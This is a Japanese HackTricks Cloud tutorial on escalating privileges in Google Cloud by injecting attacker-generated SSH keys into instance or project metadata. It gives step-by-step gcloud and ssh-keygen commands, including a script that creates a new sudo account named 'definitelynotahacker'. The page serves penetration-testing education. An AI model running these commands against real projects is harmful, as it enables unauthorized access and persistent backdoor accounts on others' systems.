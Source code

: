 # GCP - カスタムSSHメタデータの追加

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**または[telegramグループ](https://t.me/peass)に**参加**するか、**Twitter** 🐦で**フォロー**する：[**@hacktricks_live**](https://twitter.com/hacktricks_live)。
- **ハッキングトリックを共有する**ために、[HackTricks](https://github.com/carlospolop/hacktricks)と[HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## メタデータの変更 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

インスタンスのメタデータの変更は、**攻撃者が必要な権限を取得した場合には重大なセキュリティリスク**につながる可能性があります。

### カスタムメタデータへのSSHキーの組み込み

GCPでは、**Linuxシステム**はしばしば[Google Compute Engine用Python Linuxゲスト環境](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)からスクリプトを実行します。これの重要なコンポーネントは[アカウントデーモン](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)であり、これは**定期的に**インスタンスのメタデータエンドポイントをチェックして**認証済みSSH公開キーの更新**を行います。

したがって、攻撃者がカスタムメタデータを変更できれば、デーモンが新しい公開キーを見つけ、それが処理されて**ローカルシステムに統合**されるようにすることができます。そのキーは既存のユーザーの`~/.ssh/authorized_keys`ファイルに追加されるか、キーの形式に応じて`sudo`権限を持つ新しいユーザーが作成される可能性があります。そして、攻撃者はホストを侵害できるようになります。

### 既存の特権ユーザーにSSHキーを追加する

1. **インスタンス上の既存のSSHキーを調べる：**
- インスタンスとそのメタデータを説明するコマンドを実行して、既存のSSHキーを特定します。出力の関連セクションは`metadata`の下にあり、特に`ssh-keys`キーの下にあります。
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- SSHキーの形式に注意してください：ユーザー名はコロンで区切られたキーの前にあります。

2. **SSHキーメタデータ用のテキストファイルを準備する：**
- ユーザー名とそれに対応するSSHキーの詳細を`meta.txt`という名前のテキストファイルに保存します。これは、新しいキーを追加する際に既存のキーを保持するために重要です。

3. **ターゲットユーザー（この例では`alice`）の新しいSSHキーを生成する：**
- `ssh-keygen`コマンドを使用して新しいSSHキーを生成し、コメントフィールド（`-C`）がターゲットのユーザー名と一致することを確認します。
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- インスタンスのメタデータで見つかった形式と同様の形式で新しい公開キーを`meta.txt`に追加します。

4. **インスタンスのSSHキーメタデータを更新する：**
- `gcloud compute instances add-metadata`コマンドを使用して、更新されたSSHキーメタデータをインスタンスに適用します。
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **新しいSSHキーを使用してインスタンスにアクセスする：**
- 新しいキーを使用してSSHでインスタンスに接続し、ターゲットユーザー（この例では`alice`）のコンテキストでシェルにアクセスします。
```bash
ssh -i ./key alice@localhost
sudo id
```
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### プロジェクトレベルでのSSHキー <a href="#sshing-around" id="sshing-around"></a>

クラウド環境内の複数の仮想マシン（VM）へのSSHアクセス範囲を広げるために、**プロジェクトレベルでSSHキーを適用**することが可能です。このアプローチにより、プロジェクト内の任意のインスタンスにSSHアクセスできるようになります（プロジェクト全体のSSHキーが明示的にブロックされていない場合）。以下は要約したガイドです：

1. **プロジェクトレベルでSSHキーを適用：**
- `gcloud compute project-info add-metadata`コマンドを使用して、`meta.txt`からSSHキーをプロジェクトのメタデータに追加します。この操作により、SSHキーがプロジェクト内のすべてのVMで認識されるようになります。ただし、VMが「プロジェクト全体のSSHキーをブロックする」オプションを有効にしていない限りです。
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **プロジェクト全体のキーを使用してインスタンスにSSHする：**
- プロジェクト全体のSSHキーが設定されている場合、プロジェクト内の任意のインスタンスにSSHできます。プロジェクト全体のキーをブロックしていないインスタンスはSSHキーを受け入れ、アクセスを許可します。
- インスタンスに直接SSHする方法は、`gcloud compute ssh [INSTANCE]`コマンドを使用することです。このコマンドは、現在のユーザー名とプロジェクトレベルで設定されたSSHキーを使用してアクセスを試みます。


# 参考文献
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
